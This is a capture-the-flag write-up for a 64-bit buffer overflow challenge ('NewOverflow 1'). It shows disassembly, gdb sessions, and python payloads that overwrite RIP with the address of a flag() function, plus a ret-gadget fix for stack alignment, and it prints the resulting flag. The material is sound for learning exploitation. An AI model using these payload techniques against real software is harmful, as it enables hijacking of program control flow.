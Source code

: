 # NewOverflow 1

This challenge is basically a 64-bit Buffer Overflow .What used to be 4 bytes is now 8 bytes.

The only difference is the size of the memory spaces. If we happen to specify an address greater than **0x00007fffffffffff** It will raise an exception.




## Taking control of RIP

From the disassembly of the vuln function we can see that the buffer is at address **rbp-0x40** 
``` assembly
   0x00000000004007cc <+0>:     push   rbp
   0x00000000004007cd <+1>:     mov    rbp,rsp
   0x00000000004007d0 <+4>:     sub    rsp,0x40
   0x00000000004007d4 <+8>:     lea    rax,[rbp-0x40]
   0x00000000004007d8 <+12>:    mov    rdi,rax
   0x00000000004007db <+15>:    mov    eax,0x0
   0x00000000004007e0 <+20>:    call   0x400630 <gets@plt>
   0x00000000004007e5 <+25>:    nop
   0x00000000004007e6 <+26>:    leave  
   0x00000000004007e7 <+27>:    ret    

```
So, we input 0x40 bytes to get to rbp & 0x8 bytes to override rbp + 0x6 bytes to override rip(so we avoid raising an exception)

now, load up gdb and try out your exploit.

``` gdb
  gdb-peda$ r < <(python -c 'print("A"*64+"B"*8+"C"*6)')  
  Starting program: /home/arch3r/p1c0CTF_2019/N3w_0v3rflow/vuln < <(python -c 'print("A"*64+"B"*8+"C"*6)')
  Welcome to 64-bit. Give me a string that gets you the flag: 

  Program received signal SIGSEGV, Segmentation fault.
  Stopped reason: SIGSEGV
  0x0000434343434343 in ?? ()


```
We get control of eip..!

## Scripting the Exploit

We put in the address of the flag() ```\x67\x07\x40\x00\x00\x00\x00\x00```function instead of ```"C"*6``` to change code flow towards our flag() function.

We expect this to give us the flag ...but it doesn't .We end up getting a segfault.
``` console
  arch3r@1nv4d3r:~/p1c0CTF_2019/N3w_0v3rflow$ python -c 'print("A"*72+"\x67\x07\x40\x00\x00\x00\x00\x00")' | ./vuln
  Welcome to 64-bit. Give me a string that gets you the flag: 
  Segmentation fault (core dumped)
```
Let's inspect this using gdb ..

## Debugging the Exploit

After setting a breakpoint at flag() in gdb ,we see that our exploit did actually override rip correctly and we do end up in the flag() function

``` gdb
  gdb-peda$ r < <(python -c "print 'A'*72 + '\x67\x07\x40\x00\x00\x00\x00\x00'")
  Starting program: /home/arch3r/p1c0CTF_2019/N3w_0v3rflow/vuln < <(python -c "print 'A'*72 + '\x67\x07\x40\x00\x00\x00\x00\x00'")
  Welcome to 64-bit. Give me a string that gets you the flag: 
  Breakpoint 1, 0x0000000000400767 in flag ()

```
lets continue execution till the segfault

```gdb
  Stopped reason: SIGSEGV
  buffered_vfprintf (s=s@entry=0x7ffff7fa76a0 <_IO_2_1_stdout_>, format=format@entry=0x7fffffffdee8 "flag{A_n3w_0v3rflow}\n", args=args@entry=0x7fffffffde08, mode_flags=mode_flags@entry=0x0) at vfprintf-internal.c:2377
  2377    vfprintf-internal.c: No such file or directory.
```
Ok .. so we ended up messing the stack alignment with our payload, we have to make sure that rsp is 16-bit aligned when we enter into the flag function.
The simple fix for this is to use a ret ROPgadget ,it executes a ret instruction right before the jump to flag() which helps align the rsp register.

lets add this to our exploit and run it.
```console
[+] Starting local process './vuln': pid 12338
Welcome to 64-bit. Give me a string that gets you the flag: 

[*] Switching to interactive mode
flag{A_n3w_0v3rflow}
```

there we go..!


